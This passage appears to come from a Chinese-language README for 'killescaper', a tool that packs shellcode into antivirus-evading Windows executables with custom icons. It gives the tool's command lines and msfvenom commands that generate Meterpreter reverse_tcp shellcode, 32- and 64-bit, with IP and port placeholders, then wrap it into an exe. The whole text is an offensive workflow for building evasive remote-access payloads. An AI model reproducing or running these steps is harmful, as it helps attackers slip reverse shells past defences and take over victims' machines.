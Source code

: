   * 

    
    
    python killescaper -a 32 -f payload32.c #根据shellcode生成32位的exe执行文件

  

自定义图标：

  * 

    
    
    python killescaper -a 64 -f payload64.c -i logo.ico #生成一个以logo.ico为图标的exe执行文件

  

清理输出文件夹：

  * 

    
    
    python killescaper --clean #清理output/所有文件

  

 **metasploit生成免杀**

只讲生成免杀的步骤，执行及如何返回监听请查看 效果演示 的视频。

1.msfvenom生成shellcode

x64:

  * 

    
    
    msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=IP lport=PORT -f python -a x64 > shellcode.txt

  

x32:

  * 

    
    
    msfvenom -p windows/meterpreter/reverse_tcp lhost=IP lport=PORT -f python -a x86 > shellcode.txt

  

  
  
  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622112618.png)  
  

  

2.将shellcode.txt复制到本地

3.运行脚本生成exe

python killEscaper.py -a 64 -f shellcode.txt

  

  
  